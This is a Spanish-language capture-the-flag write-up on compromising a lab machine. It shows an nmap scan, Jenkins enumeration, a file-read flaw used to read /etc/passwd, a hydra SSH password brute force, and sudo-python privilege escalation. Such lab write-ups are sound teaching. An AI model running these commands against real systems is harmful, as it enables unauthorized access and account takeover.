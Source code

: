 Empiezo usando nmap: 
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](imágenes/Pasted%20image%2020240907190932.png)

Al mirar la página, hay un jenkins así que investigo como obtener información del mismo. Encuentro que puedo usar auxiliary/scanner/http/jenkins_enum

![](imágenes/Pasted%20image%2020240907200354.png)

Tras hacer `exploit`, obtengo la siguiente información: 
![](imágenes/Pasted%20image%2020240907200420.png)


Sobre la versión de jenkins, veo que hay una vulnerabilidad que me permite ver ficheros:
![](imágenes/Pasted%20image%2020240907201244.png)

Uso el script para ver /etc/passwd y veo dos usuarios "bobby" y "pinguinito":
![](imágenes/Pasted%20image%2020240907201641.png)

Usaré hydra para encontrar sus contraseñas, centrándome en "bobby" antes:
```bash
sudo hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 16 
```

![](imágenes/Pasted%20image%2020240907203026.png)

Me conecto y veo que puedo ejecutar python como si fuera "pinguinito", así que lo usaré para escalar privilegios. 
![](imágenes/Pasted%20image%2020240907203216.png)

```bash
sudo -u pinguinito /usr/bin/python3 -c "import os; os.system('/bin/bash')"
```

Como pinguinito, puedo ejecutar un script en python, así que compruebo mis permisos de escritura sobre el mismo: 
![](imágenes/Pasted%20image%2020240907203335.png)


![](imágenes/Pasted%20image%2020240907203813.png)

No puedo escribir sobre el mismo, pero como soy el propietario cambiaré los permisos para hacerlo y lo editaré para escalar privilegios:

![](imágenes/Pasted%20image%2020240907204002.png)